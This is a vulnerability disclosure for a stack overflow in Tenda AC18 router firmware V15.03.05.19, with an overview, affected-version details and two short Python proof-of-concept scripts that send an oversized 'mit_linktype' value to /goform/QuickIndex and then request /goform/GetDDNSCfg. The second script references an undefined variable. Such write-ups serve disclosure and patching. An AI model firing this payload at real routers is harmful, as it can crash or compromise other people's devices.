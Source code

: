 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/QuickIndex` url. The `s2` variable receives the `mit_linktype` parameter from a POST request and is stored in the configuration item named``wan1.connecttype` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_154952.png)

`wan1.connecttype`  configuration item can  be retrieved through the GetValue function in the `/goform/GetDDNSCfg` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_160227.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/QuickIndex"
payload = "a"*1000

data = {"mit_linktype": payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/GetDDNSCfg"

print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)

